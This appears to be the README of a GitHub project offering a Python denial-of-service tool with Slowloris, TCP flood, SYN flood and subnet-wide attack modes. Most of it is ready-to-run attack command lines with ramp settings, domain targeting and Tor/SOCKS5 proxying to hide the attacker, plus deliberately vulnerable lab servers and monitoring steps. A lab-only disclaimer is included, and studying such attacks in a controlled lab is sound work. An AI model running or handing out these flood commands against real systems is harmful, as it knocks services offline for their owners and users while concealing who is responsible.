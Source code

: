 # Slowloris Tool

Unified tool for testing **Slowloris**, **TCP Flood** and **SYN Flood** attacks in a controlled lab environment.

⚠️ **Disclaimer**: Use only in environments you fully control (labs, VMs). Attacks like these are illegal against third-party systems and can cause damage. This project is for educational and research purposes only.

---

## Modes Available

* **sniper** → attack targeting a single IP
* **domain** → attack targeting a domain (resolved via DNS)
* **pitchfork** → test across a subnet + multiple ports of your choice
* **tcpflood** → opens and maintains many TCP connections, sending payloads periodically
* **synflood** → sends raw SYN packets at configurable rates (requires root and scapy)

---

## Installation

```bash
git clone https://github.com/CLSxSH7/slowloris-tool.git
cd slowloris-tool
pip install -r requirements.txt
```

For SOCKS5 proxy support, also install:

```bash
pip install PySocks
```

For SYN flood support (Linux/WSL attacker):

```bash
pip install scapy
sudo apt install tcpdump
```

---

## Usage

### Interactive menu

If you run without parameters:

```bash
python slowloris-tool.py
```

You will see a menu to choose between modes, with prompts for each parameter.

---

### Sniper mode (single IP)

```bash
python slowloris-tool.py sniper 192.168.0.10 -p 80 -s 200 --https -ua --sleeptime 10
```

With SOCKS5 proxy (e.g., Tor):

```bash
python slowloris-tool.py sniper 192.168.0.10 -p 80 --socks5 127.0.0.1:9050
```

---

### Domain mode

```bash
python slowloris-tool.py domain example.com -p 443 --https -s 200 -ua
```

With SOCKS5 proxy:

```bash
python slowloris-tool.py domain example.com -p 443 --https --socks5 127.0.0.1:9050
```

---

### Pitchfork mode (Subnet/Ports)

```bash
python slowloris-tool.py pitchfork 192.168.0.0/24 -P 80,8080,443 -s 200 -t 50 -d 120
```

> ⚠️ In this mode, SOCKS5 proxy is not supported (direct execution only).

---

### TCP Flood mode (interactive)

Prompts and meaning:

```
Target host: 127.0.0.1
Port [80]: 
Initial sockets [10]:                   # number of initial TCP connections
Add sockets per step [10]:              # how many new connections per step
Max sockets [200]:                      # max simultaneous connections
Seconds per step [10]:                  # duration of each ramp step
Payload bytes per send [256]:           # bytes sent per socket
Send interval per socket (s) [1.0]:     # interval between sends
Latency threshold to stop (s) [1.0]:    # monitor stop condition
Duration: blank = run until Ctrl+C
```

Example one-liner:

```bash
python -m slowloris_tool.cli tcpflood 127.0.0.1 -p 8080 --start 5 --step 5 --max 50 --step-duration 6 --payload-size 256 --send-interval 0.5 --impact-latency 1.0
```

---

### SYN Flood mode (interactive)

Prompts and meaning:

```
Target host: 127.0.0.1
Port [80]: 
Initial pps [50]:               # starting packets per second
Increase pps per step [50]:     # increase per step
Max pps [1000]:                 # max packets per second
Seconds per step [10]:          # duration of each ramp step
Latency threshold to stop (s) [1.0]: 
Duration: blank = run until Ctrl+C
```

Example one-liner (Linux/WSL attacker, needs sudo):

```bash
sudo PYTHONPATH="$(pwd)/src" venv/bin/python -m slowloris_tool.cli synflood <IP> -p 8080 --start 200 --step 200 --max 1200 --step-duration 6
```

---

## Vulnerable servers for testing

### Slowloris test server

A simple server vulnerable to **Slowloris** (headers read slowly).

```bash
python vulnerable_server.py --host 0.0.0.0 --port 8080 --max-workers 5
```

### TCP/SYN flood test server

Variant server that holds open connections to demonstrate **TCP flood** and **SYN flood**.

```bash
python vulnerable_server_tcp_syn.py --host 0.0.0.0 --port 8080 --max-workers 5
```

---

## Expected behaviors of vulnerable servers

* **Slowloris**: many sockets remain waiting for headers, consuming workers → new clients blocked.
* **TCP flood**: many `ESTABLISHED` connections from attacker → server threads/resources exhausted.
* **SYN flood**: many SYN packets in backlog, new connections delayed or dropped; `curl` fails with timeout or invalid protocol.

---

## Step-by-step: running TCP flood in local lab

1. Start vulnerable server:

   ```powershell
   python vulnerable_server_tcp_syn.py --host 0.0.0.0 --port 8080 --max-workers 5
   ```

2. On attacker (WSL/Linux):

   ```bash
   python -m slowloris_tool.cli tcpflood <IP> -p 8080 --start 10 --step 10 --max 200 --step-duration 6 --payload-size 256 --send-interval 0.5
   ```

3. Monitor:

   * Windows: `netstat -ano | findstr :8080` or `(Get-NetTCPConnection -LocalPort 8080).Count`
   * WSL: `tcpdump` to confirm traffic.

4. Test service: `curl -m 5 -v http://<IP>:8080/`

---

## Step-by-step: running SYN flood in local lab

1. Start vulnerable server:

   ```powershell
   python vulnerable_server.py --host 0.0.0.0 --port 8080 --max-workers 5
   ```

2. On attacker (WSL, root):

   ```bash
   sudo PYTHONPATH="$(pwd)/src" venv/bin/python -m slowloris_tool.cli synflood <IP> -p 8080 --start 200 --step 200 --max 1200 --step-duration 6
   ```

3. Monitor:

   * WSL: `tcpdump -n -i any 'tcp[tcpflags] & (tcp-syn) != 0 and dst host <IP> and dst port 8080'`
   * Windows: `curl -m 5 -v http://<IP>:8080/` may timeout or fail.

---

## Dependencies

* Python 3.9+
* `requests`
* `PySocks` (optional, SOCKS5)
* `scapy` (for SYN flood)

---

## Notes

* `--socks5` supported only in **sniper** and **domain**.
* TCP/SYN flood modes require local lab vulnerable servers to demonstrate impact.
* Always stop attacks with **Ctrl+C**. Do not run against production systems.
